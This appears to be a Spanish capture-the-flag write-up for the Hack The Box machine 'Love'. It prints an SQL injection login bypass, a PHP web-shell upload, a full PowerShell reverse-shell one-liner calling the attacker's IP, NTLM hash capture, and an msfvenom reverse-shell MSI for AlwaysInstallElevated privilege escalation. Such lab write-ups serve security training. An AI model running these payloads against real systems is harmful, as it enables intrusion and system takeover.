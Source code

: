 # 10.10.10.239 - Love

![Love](https://user-images.githubusercontent.com/96772264/197388747-319cf1cf-6a22-4e92-aecf-e255da52f783.png)

-------------------

# Parte 1 - Reconocimiento

Tenemos abiertos los puertos: 80 (http) ,135(rpc),139(smb tambien),443,445(smb),3306(sql),5000,5040,5985,5986,7680

### Nmap -> escaneo de servicios

```sudo nmap -sCV -T5 -p443,445,3306,5000,5040,5985,5986,7680 10.10.10.239```
Las conclusiones que nos da Nmap son estas:
- El puerto 443 da error 403 Forbidden, pero es un Apache 2.4.46 con PHP 7.3.27.
- Tenemos el dominio staging.love.htb y la empresa se llama *ValentineCorp*
- Por smb tenemos que el sistema se llama LOVE y el Workgroup es WORKGROUP
- Puerto 5000, lo mismo que en el 443, error 403 y Apache 2.4.46/PHP 7.3.27.
 

### Puerto 80:
```console
└─$ whatweb http://10.10.10.239
http://10.10.10.239 [200 OK] Apache[2.4.46], Bootstrap, Cookies[PHPSESSID], OpenSSL/[1.1.1j] PHP[7.3.27], IP[10.10.10.239], JQuery, PasswordField[password], Script, Title[Voting System using PHP]
```
### Puerto 445 y 139:

No podemos acceder sin creds a ninguno.
```console
└─$ smbclient -L 10.10.10.239 -N 
session setup failed: NT_STATUS_ACCESS_DENIED
└─$ rpcclient -U "" 10.10.10.239 -N
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED
```
### Puerto 443 
La web da forbidden, pero al tener ssl ```openssl s_client -connect love.htb:443``` obtenemos el mail de ```roy@love.htb```  
```rpcclient -U "roy" 10.10.10.239 -N # NT_STATUS_LOGON_FAILURE```   
Pero intentar bruteforcear la contraseña no da resultado: ```crackmapexec smb 10.10.10.239 -u "roy" -p /usr/share/wordlists/rockyou.txt```  

-------------------------

# Parte 2: Explotación web

![lovehtb_1](https://user-images.githubusercontent.com/96772264/197388800-902b1bae-7d9a-4ee9-b064-95ab048cdd3a.PNG)


Como esto bien decia, la web http://10.10.10.239 / http://love.htb tiene el formulario este de "php voting system".  
Peticion -> ```POST a /login.php voter=123&password=123&login= PHPSESSID="8uonobi5kr3p0cvm2hir2o2g63" ``` 
Nos ha dado que "Cannot find voter with the ID" cosa que me incita a fuzzear este mismo.  

```console
└─$ hydra -L ./numbers.txt -p test love.htb https-post-form "/login.php:voter=^USER^&password=^PASS^:F=Cannot find voter with the ID" 
```
Pero tras un rato nada.  

En la seccion de comentarios hay ```<!-- WARNING: Respond.js doesn't work if you view the page via file:// -->``` Pero la ruta "/js/Respond.js" da error 404.  

Como no he podido fuzzear el Voting System (y para la ruta staging tambien), queda buscarle en el searchsploit.  
```searchsploit Voting System``` Hay varios para autenticarse mediante SQLI, uno de ellos dice de poner.  
```admin:' or ''='``` a */admin* pero no dio resultado. En cambio otro mas largo Si va:  
```login=yea&password=admin&username=dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VK2ZdfB9f/GcJLuPahJWZ9K",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- -```

Lo del medio que envia parece un formato de hash a juzgar por los "$". Una vez en la web del Voting system tenemos que el usaurio se llama "Neovic Devierte" 
(puede que nos sirva para los otros servicios).  

![lovehtb_2](https://user-images.githubusercontent.com/96772264/197388822-dfcecd45-a2bf-449d-b0dc-9a3128dcfebf.PNG)

Hay otro exploit que habla de un file upload en /candidates.php, no esta nada sanitizado, pero si intento subir algo me da problemas el campo de *Position*.     

![lovehtb_3](https://user-images.githubusercontent.com/96772264/197388834-55fac078-1160-46fb-90d0-008d2d35d63c.PNG)

En staging.love.htb hay un campo para peticiones. Si le pido que se la haga a mi servidor me responde  

![lovehtb_4](https://user-images.githubusercontent.com/96772264/197388841-1fa009bb-4a4f-401b-b5ba-febcf8b73caf.PNG)

```console
└─$ sudo python3 -m http.server   
[sudo] password for cucuxii:
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.239 - - [23/Oct/2022 10:56:37] "GET / HTTP/1.1" 200 -
10.10.10.239 - - [23/Oct/2022 10:59:11] "GET /shell.php HTTP/1.1" 200 -
```

Pero el php no lo interpreta.   
Si se lo pido al loscalhost me sale el formulatio del Voting System. Teniamos varias paginas Forbidden.  

La web del puerto 443 no me deja verla ```http://127.0.0.1:443 o https://127.0.0.1:443``` Pero la del 5000 si. Nos dan las creds "admin:@LoveIsInTheAir!!!!"  
Con el puerto 80 dichas creds nos llevan a la web de antes (que seguimos teniendo problema con subir el Candidato)  

![lovehtb_5](https://user-images.githubusercontent.com/96772264/197388860-915adddc-f7f3-4fc5-8ac4-f873ffa98392.PNG)

Tampoco nos sirven para el smb ni para admin ni para roy.  

En la web aparte de subir Candidatos puedes subir Votantes, ahí no hay ningun campo que nos de problemas.  
Subí el cmd.php y en la lista de Votantes me salió la foto (obviamente como es un shell.php no se muestra tal)  

![lovehtb6](https://user-images.githubusercontent.com/96772264/197388876-34ff9dc0-cad2-4dbe-9f14-9dcc5051c6ec.PNG)

-------------------------

# Parte 3: Accediendo al sistema

¿Pero donde está la backdoor? Como se subió en el campo de *foto*, al darle a *copy image location*   
```http://love.htb/images/shell.php?cmd=whoami```

Como tenemos ejecucion remota de comandos, ahora solo tenemos que ejecutar una reverse shell (y escuchar por netcat).  

La reverse shell seria esta:
```console
curl -s -X POST -d "powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.14.15%27%2C443%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22" http://gitserver.thm/web/exploit.php
```
Esto es la version urlencodeada de un [oneliner de powerhsell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3):  
```powershell
*powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"*
```
Nos ponemos en escucha por el netcat.  
```console
└─$ sudo nc -nlvp 443
whoami
love\phoebe
PS C:\xampp\htdocs\omrs\images> 
```
```console
└─$ impacket-smbserver carpeta $(pwd) -smb2support
[*] Phoebe::LOVE:aaaaaaaaaaaaaaaa:f61b6d088db119ce592bb4d0a56f709b:010100000000000000718863cde6d8019d6b0265e2c0f8150000000001001000730065006a00720067004f004c006c0003001000730065006a00720067004f004c006c000200100053005200610071005900410051004d000400100053005200610071005900410051004d000700080000718863cde6d80106000400020000000800300030000000000000000000000000200000dc7b78e8b0b71bd6254ed079cc9343e57d00d68f7334579eb372fe74b4607ffe0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310035000000000000000000

PS C:\xampp\htdocs\omrs\images> copy \\10.10.14.15\carpeta\enumeracion_windows.bat . 
```
-------------------------

# Parte 4: Explotado Always Install Elevated

Nuestro [script](https://github.com/CUCUxii/win_enum/blob/main/enumeracion_windows.bat) nos dice que:  
- Usuarios: Administrator, Phoebe  
- El always Install elevated está activado 

La manera de explotar esto es:  
```console
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.15 LPORT=666 -f msi -o reverse.msi
Saved as: reverse.msi
PS C:\xampp\htdocs\omrs\images> copy \\10.10.14.15\carpeta\reverse.msi .
msiexec /quiet /qn /i C:\xampp\htdocs\omrs\images\reverse.msi
└─$ sudo nc -nlvp 666
C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

